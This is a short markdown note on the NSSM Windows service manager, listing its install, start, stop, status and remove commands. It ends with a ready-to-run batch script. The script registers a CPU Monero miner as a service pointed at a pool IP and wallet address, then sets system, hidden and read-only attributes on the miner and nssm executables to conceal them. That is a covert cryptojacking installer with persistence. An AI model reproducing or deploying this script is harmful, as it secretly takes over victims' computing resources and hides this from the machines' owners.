 `NSSM - the Non-Sucking Service Manager`

```console
shell> nssm install
```
<img src="http://i.imgur.com/80lhkUy.png" alt="nssm" width=300>

```console
shell> nssm install <servicename> <program> [<arguments>]
shell> nssm start <servicename>
shell> nssm stop <servicename>
shell> nssm status <servicename>
shell> nssm remove <servicename>
```

#### :books: 參考網站：
- https://nssm.cc/
- https://nssm.cc/commands

---

```
@echo off 

set xmrAddress=47HtbDvpVQwDsiegiDZqYxcQEDZtj3DGxHcdeaqem4jqQxkBQtpxgopUZ5oVg2HaWfTjGye2MBZZJTPvDpeL1Koq5ZtaFH1
set poolPassword=x
set poolUrl=stratum+tcp://198.251.81.82:3333

nssm install NsCpuCNMiner64 NsCpuCNMiner64.exe -o %poolUrl% -u %xmrAddress% -p %poolPassword% -dbg -1 -lowcpu 2
nssm start NsCpuCNMiner64

@attrib +s +h +r NsCpuCNMiner64.exe
@attrib +s +h +r nssm.exe
```
